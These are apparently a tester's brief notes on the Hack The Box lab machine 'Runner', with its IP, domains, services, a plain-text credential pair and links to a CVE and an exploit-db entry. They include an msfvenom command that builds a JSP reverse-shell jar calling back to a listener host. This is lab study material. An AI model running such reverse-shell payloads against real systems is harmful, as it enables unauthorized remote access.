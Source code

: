 # Runner Notes

## Data

IP: 10.129.19.125
OS: Jammy Ubuntu
Arch: x64
Hostname:
DNS:
Domain:  runner.htb teamcity.runner.htb
Machine Purpose:
Services: 22, nginx - 80 , nagios-nsca on 8000
Service Languages:
Users:
Email and Username Formatting:
Credentials:

```
s6hq4rmy : f8jWYWEFxo
```


#### Mindmap-per Service

- OS detect, run generate noting for `nmap`
-
-
-
-
- Not: 
	- https://ubuntu.com/security/CVE-2022-41741
-
-
-
- https://www.exploit-db.com/exploits/51884
-
-
-
-
-
- ssh keys

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=8443 --platform linux -a x64 -f jar
-o shellcity.jar
```

https://attackdefense.com/challengedetailsnoauth?cid=1459
#### Todo List
#### Done


